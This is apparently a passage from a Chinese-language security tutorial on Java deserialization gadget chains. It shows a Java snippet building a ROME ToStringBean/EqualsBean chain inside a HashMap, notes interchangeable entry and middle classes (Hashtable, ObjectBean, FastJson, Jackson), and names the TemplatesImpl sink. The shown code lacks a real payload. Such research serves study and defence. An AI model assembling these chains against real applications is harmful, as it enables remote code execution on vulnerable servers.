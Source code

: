 代码如下

```plain
ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);
        Object templatesimpl = null;

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("obj"); // 低版本（如1.0）此属性名为 _obj
        field.setAccessible(true);
        field.set(toStringBean,templatesimpl);
        serialize(hashMap);
        unserialize("ser.bin");
```

调用栈如下  
[![](assets/1701606907-a594ea272ba561932aff12b07b2bf83b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210100-38300912-6ced-1.png)

另外这条链很多地方都可以替换

*   由于是在HashMap中调用key.hashCode()作为入口，所以入口类HashMap可以换成Hashtable
*   `ObjectBean.hashCode()`中会调用`EqualsBean.beanHashCode() = EqualsBean.hashCode()` 因此可以用ObjectBean替换EqualsBean

### 中间部分

`FastJson的JSONObject类 或 Jackson的POJONode类 或 ROME的ToStringBean类`中放好目标类即可

### toString()->sink

#### TemplatesImpl#getOutputProperties

**JDK原生可用**

这条链早在CC和CB中就用到过，故不多作介绍

三组件均可用，但结合**Rome、Jackson**使用时需要一些特殊处理，详见后文
